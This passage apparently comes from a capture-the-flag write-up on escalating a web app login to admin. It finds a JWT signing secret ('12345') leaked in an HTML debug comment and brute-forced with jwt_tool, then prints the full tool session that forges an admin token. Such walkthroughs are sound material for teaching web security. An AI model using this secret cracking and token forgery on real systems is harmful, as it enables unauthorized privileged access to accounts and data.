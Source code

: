 So we can see that our `public_id` is `guest`, and, most probably, we need to be `admin` to access the `Admin` page. So, trying to understand the most common attacks to `jwt` I found out a tool, [JSON Web Token Toolkit v2](https://github.com/ticarpi/jwt_tool#the-json-web-token-toolkit-v2), that, after configuring the target URL and specifying our `jwt` as input, automatically attempts to find issues with it, as it quickly found out that the key using to sign the token was `12345` by merely bruteforce with the built-in dictionary. However, as aforementioned, this was an unnecessary effort, given that as a commentary in the source code we had the following message: 

```html
<!-- 
putting jwt beautifier in here soon!
DEBUG note for QA:
the current jwt secret is 12345
-->
```

Oh well. Using the same tool also aids us on generating a new `jwt` with any modifications we need:

```bash
❯ python3 jwt_tool.py eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJwdWJsaWNfaWQiOiJndWVzdCIsImlkIjoidGVzdCIsImV4cCI6MTY2ODI1NTkxOH0.QKE7Vlzxr_-BzOmFhPnYPjw9cuVYJjsrNatDRSBikyc -T -S hs256 -p "12345"

Token header values:
[1] alg = "HS256"
[2] typ = "JWT"
[3] *ADD A VALUE*
[4] *DELETE A VALUE*
[0] Continue to next step

Please select a field number:
(or 0 to Continue)
> 0

Token payload values:
[1] public_id = "guest"
[2] id = "test"
[3] exp = 1668255918    ==> TIMESTAMP = 2022-11-12 12:25:18 (UTC)
[4] *ADD A VALUE*
[5] *DELETE A VALUE*
[6] *UPDATE TIMESTAMPS*
[0] Continue to next step

Please select a field number:
(or 0 to Continue)
> 1

Current value of public_id is: guest
Please enter new value and hit ENTER
> admin
[1] public_id = "admin"
[2] id = "test"
[3] exp = 1668255918    ==> TIMESTAMP = 2022-11-12 12:25:18 (UTC)
[4] *ADD A VALUE*
[5] *DELETE A VALUE*
[6] *UPDATE TIMESTAMPS*
[0] Continue to next step

Please select a field number:
(or 0 to Continue)
> 0
jwttool_98c7e8bf492b3d9160ae70364245e1b8 - Tampered token - HMAC Signing:
[+] eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJwdWJsaWNfaWQiOiJhZG1pbiIsImlkIjoidGVzdCIsImV4cCI6MTY2ODI1NTkxOH0.T3aPtPlGJ8FDt_K3z0-57yOHNdoWyJ3bAERbIJd4KWQ
```
